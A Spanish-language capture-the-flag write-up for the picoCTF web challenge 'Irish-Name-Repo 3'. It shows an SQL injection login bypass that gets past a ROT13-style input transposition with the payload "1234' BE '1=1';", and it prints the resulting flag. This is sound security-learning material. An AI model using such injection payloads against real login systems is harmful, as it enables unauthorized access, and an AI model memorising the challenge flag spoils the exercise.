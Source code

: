 ```yaml
---
title: Irish-Name-Repo 3
date: 2025-05-19 00:00:00 +0200
categories: [writeup, picoctf]
tags: [picoctf, irish-name-repo 3, explitación web]     
image:
    path: https://picoctf.org/img/logos/pico-mark.svg
    alt: PicoCTF
---
```


>Irish-Name-Repo 3
Author: Xingyang Pan
Description
There is a secure website running at https://jupiter.challenges.picoctf.org/problem/40742/ (link) or http://jupiter.challenges.picoctf.org:40742. Try to see if you can login as admin!
{: .prompt-tip }

Al abrir la web tenemos un botón que nos pedirá la password, si capturamos o en la propia consola ponemos atención al request veremos que
se están enviando la siguiente información:

password=admin&debug=0

Empiezo por probar lo más obvio, poner debug a 1. Cuando haces esto enseguida caes en la cuenta de que parece una inyección sql pero
con algunos matices. 



Primero de todo como podemos cambiar el orden de los parámetros para no liarlos
debug=1&password=adfasdf

Cuando hago la inyección 
>1234' OR  '1=1';
Nos aparece esto:
```
password=1234' BE  '1=1';
```

Empecé a jugar con los valores hasta darme cuenta que durante el debug estos valores estaban siendo alterados, 
OR aparece como BE. Así que imagine que podía establecer una relación y es bastante obvia, hay una transposición durante el debug.

>OPQR se transpone a BCDE

Pruebo con lo siguiente siguiendo la lógica anterior
debug=1&password=1234' BE  '1=1';

``` html
password: 1234' BE  '1=1';
SQL query: SELECT * FROM admin where password = '1234' OR  '1=1';'

Logged in!

Your flag is: picoCTF{3v3n_m0r3_SQL_4424e7af}
```
flag: **picoCTF{3v3n_m0r3_SQL_4424e7af}**

Otra inyección SQLi pero con una variación curiosa. 
